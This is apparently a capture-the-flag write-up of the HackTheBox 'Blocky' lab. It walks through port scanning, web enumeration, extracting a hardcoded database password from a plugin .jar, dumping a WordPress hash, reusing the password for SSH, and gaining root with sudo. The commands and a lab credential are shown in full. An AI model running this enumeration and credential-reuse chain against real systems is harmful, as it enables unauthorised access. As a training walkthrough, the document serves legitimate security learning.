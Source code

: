 OS: Linux 

Nmap Enumeration
```
PORT     STATE  SERVICE REASON         VERSION
21/tcp   open   ftp     syn-ack ttl 63 ProFTPD 1.3.5a
22/tcp   open   ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqVh031OUgTdcXsDwffHKL6T9f1GfJ1/x/b/dywX42sDZ5m1Hz46bKmbnWa0YD3LSRkStJDtyNXptzmEp31Fs2DUndVKui3LCcyKXY6FSVWp9ZDBzlW3aY8qa+y339OS3gp3aq277zYDnnA62U7rIltYp91u5VPBKi3DITVaSgzA8mcpHRr30e3cEGaLCxty58U2/lyCnx3I0Lh5rEbipQ1G7Cr6NMgmGtW6LrlJRQiWA1OK2/tDZbLhwtkjB82pjI/0T2gpA/vlZJH0elbMXW40Et6bOs2oK/V2bVozpoRyoQuts8zcRmCViVs8B3p7T1Qh/Z+7Ki91vgicfy4fl
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNgEpgEZGGbtm5suOAio9ut2hOQYLN39Uhni8i4E/Wdir1gHxDCLMoNPQXDOnEUO1QQVbioUUMgFRAXYLhilNF8=
|   256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILqVrP5vDD4MdQ2v3ozqDPxG1XXZOp5VPpVsFUROL6Vj
80/tcp   open   http    syn-ack ttl 63 Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos  reset ttl 63
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

add http://blocky.htb to vhost `/etc/hosts` and then  go to `http://blocky.htb`

also run the nmap scan again just for port 80 to see the details
```
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18
|_http-generator: WordPress 4.8
|_http-title: BlockyCraft &#8211; Under Construction!
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: Host: 127.0.1.1
```


subdomain enumeration
```
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://blocky.htb' -H "Host:FUZZ.blocky.htb" -fs 178
```
returns nothing -> no subdomains 

web directory enumeration 
```
gobuster dir -u http://blocky.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
returns 
```
/.htaccess            (Status: 403) [Size: 294]
/.htpasswd            (Status: 403) [Size: 294]
/.hta                 (Status: 403) [Size: 289]
/index.php            (Status: 301) [Size: 0] [--> http://blocky.htb/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://blocky.htb/phpmyadmin/]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/server-status        (Status: 403) [Size: 298]
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/wp-admin             (Status: 301) [Size: 311] [--> http://blocky.htb/wp-admin/]
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
Progress: 4744 / 4745 (99.98%)
/xmlrpc.php           (Status: 405) [Size: 42]
```

important ones 
/phpmyadmin/ -> goes to the phpmyadmin login portal -> most likely a database? 
/wp-includes/ -> can see all files structures in the web root directory but cannot be the contend of the files 
/plugins/ -> can see BlockyCore.jar file and grief.prevention-1.1...
![](../Assets/Screenshot%202025-05-22%20at%202.38.10%20PM.png)

Download both files and unzip them. 
In BlockyCore.jar, there is a BlockCore.class (its a java plugin)
cat it:
![](../Assets/Screenshot%202025-05-22%20at%202.45.21%20PM.png)
im guessing the sql username is `root` and the password is `8YsqfCTnvxAUeduzjNSXe22` -> we try to login into php my admin with this credentials
![](../Assets/Screenshot%202025-05-22%20at%202.47.07%20PM.png)
then under the wordpress database we can see wp_users
![](../Assets/Screenshot%202025-05-22%20at%202.51.08%20PM.png)
then we can see that there is a account with user_login: `Notch`and pass: `$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/`
![](../Assets/Screenshot%202025-05-22%20at%202.51.39%20PM.png)

we can try to crack the hash using hashcat
```
hashcat -m 400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
this doesn't return anything

being desperate, i tried to login everything with the usernames 'root' and 'notch' and the only password '8YsqfCTnvxAUeduzjNSXe22'

managed to ssh and ftp into the box with user 'notch' and password '8YsqfCTnvxAUeduzjNSXe22'

both works
![](../Assets/Screenshot%202025-05-22%20at%203.17.14%20PM.png)![](../Assets/Screenshot%202025-05-22%20at%203.17.26%20PM.png)

and we are able to get the user flag

running 
```
sudo -l
```

```
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
that means Blocky is in the sudo-ers group and can use sudo 
run
```
sudo su
```
and then now we are root
we can go to the root directory and then cat out the root.txt file

yay we have pwned the machine!